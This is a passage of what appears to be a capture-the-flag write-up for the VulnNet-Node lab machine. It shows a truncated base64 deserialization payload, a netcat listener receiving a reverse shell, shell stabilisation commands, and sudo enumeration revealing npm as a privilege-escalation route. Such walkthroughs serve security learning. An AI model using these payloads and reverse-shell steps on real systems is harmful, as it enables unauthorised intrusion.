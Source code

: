 <h3>Encode Base64</h3>

```bash
eyJyY2UiOiJfJCRORF ....LDg0LDQxLDU5LDEwKSl9KCkifQ==
```

![image](https://github.com/user-attachments/assets/187865c6-5d41-4bf4-b1e9-ebe8c1579234)


<h3>Burp Suite Repeater</h3>

![image](https://github.com/user-attachments/assets/036385cd-3bc7-436d-9d29-6389860e81f6)


<h3>shell</h3>

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.228.176 43076
Connected!
whoami
www
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www@vulnnet-node:~/VulnNet-Node$ ^Z
[1]+  Stopped                 nc -nlvp 4444
root@ip-10-10-210-88:~# stty raw -echo; fg
nc -nlvp 4444

www@vulnnet-node:~/VulnNet-Node$ pwd
/home/www/VulnNet-Node
www@vulnnet-node:~/VulnNet-Node$ cd /home
www@vulnnet-node:/home$ ls
serv-manage  www
```

```bash
www@vulnnet-node:/home$ cd serv-manage
bash: cd: serv-manage: Permission denied
```

```bash
www@vulnnet-node:/home$ cd serv-manage
bash: cd: serv-manage: Permission denied
```

```bash
www@vulnnet-node:~/VulnNet-Node$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```
